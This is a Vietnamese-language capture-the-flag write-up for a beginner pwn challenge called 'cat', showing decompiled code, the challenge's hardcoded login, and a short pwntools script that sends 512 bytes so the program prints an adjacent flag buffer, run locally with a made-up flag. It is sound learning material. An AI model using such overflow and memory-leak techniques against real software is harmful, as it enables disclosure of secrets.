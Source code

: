  **Writeup Cat from Pwn** 
 **#1 Tìm lỗi**
     Em sẽ dùng lệnh 'file' để tìm thông tin của file và có kết quả như sau
     ![image](https://user-images.githubusercontent.com/116651808/212807726-3f02e914-3565-49b9-8246-2cc62cf8145a.png)
     Em sẽ được file được viết là file ELF 64bit nên em mở file cat bằng ida 64 sẽ thấy soure của hàm main như sau:
   int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h]
  int v5; // [rsp+Ch] [rbp-4h]

  init(argc, argv, envp);
  read_flag();
  printf("Username: ");
  v4 = read(0, username, 0x20uLL);
  if ( username[v4 - 1] == 10 )
    username[v4 - 1] = 0;
  printf("Password: ");
  v5 = read(0, password, 0x20uLL);
  if ( password[v5 - 1] == 10 )
    password[v5 - 1] = 0;
  if ( !strcmp(username, "KCSC_4dm1n1str4t0r") && !strcmp(password, passwd) )
  {
    puts("Logged in!");
    printf("Your secret: ");
    read(0, secret, 0x200uLL);
    printf("Saving secret \"%s\"...\n", secret);
    puts("Done! Exiting...");
  }
  else
  {
    puts("Unauthorized access is forbidden!");
  }
  return 0;
}
    Đọc hàm main em thấy chương trình sẽ tiến hành thực hiện hàm read_flag()(Kiểm tra hàm này thì thấy đã lưu giá trị flag vào biến flag), sau đó tiếp tục cho người dùng
    nhập username và password rồi đem đi so sánh với giá trị đã có sẵn. Nếu đúng thì tiếp tục cho phép nhập vào biến secret và in biến secret rồi kết thúc chương trình.
    Đến đây em nghĩ đến nhập buffer từ biến secret đến biến flag. Em dùng lệnh 'checksec' trong gdb để kiểm tra xem có buffer được không.
    ![image](https://user-images.githubusercontent.com/116651808/212809077-1438d894-e51b-4018-b5fe-4cf951058cc3.png)
    Em thấy được Canary đang disabled nên sẽ tận dụng lỗi buffer over flow được
   
   
   
 **2. Ý tưởng**
    Sau khi đọc source thì em sẽ nhập KCSC_4dm1n1str4t0r cho username và wh3r3_1s_th3_fl4g cho password.
    Dùng gdb thì thấy được khoảng cách từ biến flag đến secret là 512 nên sẽ nhập 512 ký tự cho biến secret
    
    
  **3. Viết script**
  
    from pwn import *
    r = process("./cat")

    r.recvuntil("Username: ")
    r.sendline("KCSC_4dm1n1str4t0r")
    r.recvuntil("Password: ")
    r.sendline("wh3r3_1s_th3_fl4g")
    r.sendline("a"*512)
    r.interactive()
    
 **4. Lấy flag**
   ![image](https://user-images.githubusercontent.com/116651808/212811067-c7f63163-7b62-4d60-a8fb-a65951c3a539.png)
    flag: KCSC{Th1s_1s_f4k3_fl4g} (Chạy trên local nên đây là flag em tự tạo).
